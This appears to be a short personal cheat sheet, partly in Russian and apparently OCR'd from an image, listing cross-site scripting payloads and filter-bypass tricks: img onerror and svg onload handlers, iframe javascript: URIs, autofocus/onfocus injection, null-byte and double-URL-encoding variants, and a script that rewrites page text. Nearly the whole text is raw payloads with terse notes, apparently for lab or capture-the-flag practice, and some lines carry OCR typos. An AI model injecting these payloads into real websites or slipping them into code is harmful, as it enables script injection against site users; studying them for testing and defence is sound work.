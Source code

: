 tips for xxs
without parantheses


```js
<img src=1 onerror=alert(1)>
#<img src=1 onerror=alert(1)>
<script>document.querySelector(‘#thm-title’).textContent = I am a hacker'</script>

onfucus="alert(9)" autofocus x="

eval('alert(9)')

“e”.charCodeAt(0).toString(16)

в href javascript:alert

<iframe src="javascript:alert(`xss`)"> 


/#/score-board/

"><svg onload=alert(1)>
<svg/onload=alert()>
<img src onerror=alert(0)>
```
---
Основные методы вызова js из html
```js
<script>...</script>
<img onerror="..." src="x">
<a href="%20javascript:..."></a>
<iframe src="javascript:...">
<iframe onload='alert``'>
autofocus onfocus="alert()" #%20 %09
javascript://qwe.com/%0aalert()
encode html entety
```

пробелы могу заменяться “/”, тэг необязательно закрывать
double URL encoding

```js
prompt('xss')
%00<script>alert(9)</script>
alert(location.origin)
${alert}
```